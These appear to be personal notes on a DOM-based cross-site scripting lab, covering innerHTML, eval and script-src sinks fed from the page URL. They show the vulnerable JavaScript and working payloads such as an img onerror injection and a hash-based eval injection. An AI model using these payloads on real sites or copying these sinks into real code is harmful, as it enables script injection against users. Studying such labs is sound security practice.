 ```js
var url=unescape(document.URL);
var pos=url.indexOf("name=")+5;
document.getElementById("user").innerHTML="Hi, <b>"+url.substring(pos,url.length)+'</b>';
console.log("in")
```

payload
```js
<img src=x onerror=d00med()>
```


![[Pasted image 20241222004640.png]]

# eval
---
> DOMinatorPro will show an alert since it controls since it take trace of the operations performed on tainted sources.


```js
function loadObj(){
 var cc=eval('('+unescape(aMess)+')');
 document.getElementById('mess').textContent=cc.message;
}
if(window.location.hash.indexOf('message')==-1)
  var aMess="({\"message\":\"Hello User!\"})";
else
  var aMess=location.hash.substr(window.location.hash.indexOf('message=')+8);
```

- use message param in the URL 

payload
```js
#message=d00med()
```

![[Pasted image 20241222005237.png]]

# script_src
---
> The attacker can control a url which is used to load a script.

Not much in the home page
![[Pasted image 20241222014111.png]]
Looking at the source
```js
 var d=document.createElement("script");
 if(location.hash.slice(1))
 d.src =  location.hash.slice(1);
 (function(){
  var a=document.createElement("a");
  a.href=d.src;
  if(a.host!="" && a.host.indexOf(location.host)!=0){
    d00med();
   }
 })();
 document.body.appendChild(d);
```
